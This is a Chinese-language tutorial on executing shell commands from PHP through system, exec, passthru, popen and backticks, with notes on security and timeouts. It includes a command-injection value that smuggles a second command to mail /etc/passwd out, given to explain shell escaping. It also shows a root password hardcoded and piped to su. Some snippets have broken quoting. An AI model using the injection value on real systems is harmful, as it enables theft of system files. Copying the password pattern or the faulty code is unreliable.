 #PHP执行外部命令

##PHP提供的专门函数

1. system函数

		string system(string command [,int return_var] ),
		
		<?php  
		error_reporting(E_ALL);  //打印所有的环境变量
		$lastLineRes=system("dir");    
		echo "<br/>$lastLineRes<br/>"; 

2. exec函数

		string exec(string commad [,array res [, int return_var] ] )
		不输出并返回最后一行结果，array res 是存放所有执行结果的数组，return_var是状态码。
		
		print_r(exec("dir"));  
		print_r(exec("dir",$res));  
		print_r(exec("dir",$res2,$statu)); 

3. passthru函数

		void passthru(string commad [,int return_var] ),
		只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上,经常用来调用像pbmplus （Unix下的一个处理图片的工具，输出二进制的原始图片的流）这样的程序。

		passthru('1.gif);//会调用图形查看器显示图片
		passthru('E:\notes\sn\bibao.md');//会调用markdown来打开此文件

###使用函数popen()打开进程

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。 

popen ()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。

在PHP3中，对这种句柄只能做单一的操作模式，要么写，要么读；从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式（读或写）打开的，否则必须调用pclose()函数来关闭 它。

		/* PHP中如何增加一个系统用户  
		下面是一段例程，增加一个名字为james的用户,  
		root密码是 verygood。仅供参考  
		*/   
		$sucommand = "su --login root --command";   
		$useradd = "useradd ";   
		$rootpasswd = "verygood";   
		$user = "james";   
		$user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user);   
		$fp = @popen($user_add,"w");   
		@fputs($fp,$rootpasswd);   
		@pclose($fp);   

##使用反撇号`
这个方法以前没有归入PHP的文档，是作为一个秘技存在的。方法很简单，用两个反撇号把要执行的命令括起来作为一个表达式，这个表达式的值就是命令执行的结果。如： 

		$res='ls -l';   
		echo "`$res`";  

##要考虑两个问题：安全性和超时。 
      
a.先看安全性。

比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数（或者从未听说过），你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样： 

	system("mail $to < products.txt");   

如果有个恶意的用户输入了这样一个EMAIL地址：`'--bla ; mail someone@domain.com < /etc/passwd ;' `，那么这条命令最终变成：`'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt' `

PHP为我们提供了两个函数：`EscapeShellCmd()`和`EscapeShellArg()`。函数EscapeShellCmd把一个字符串 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号（），重定向（>）和从文件读入 （<）等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数

b.超时问题。

如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，象system()等函数要等到这个命令运行完才返回（实际上是要等命令的输出结果），这肯定会引起PHP脚本的超时。解决的办法是把命令的输出重定向到另外一个文件或流中，如：

	system("/usr/local/bin/order_proc > /tmp/null &");   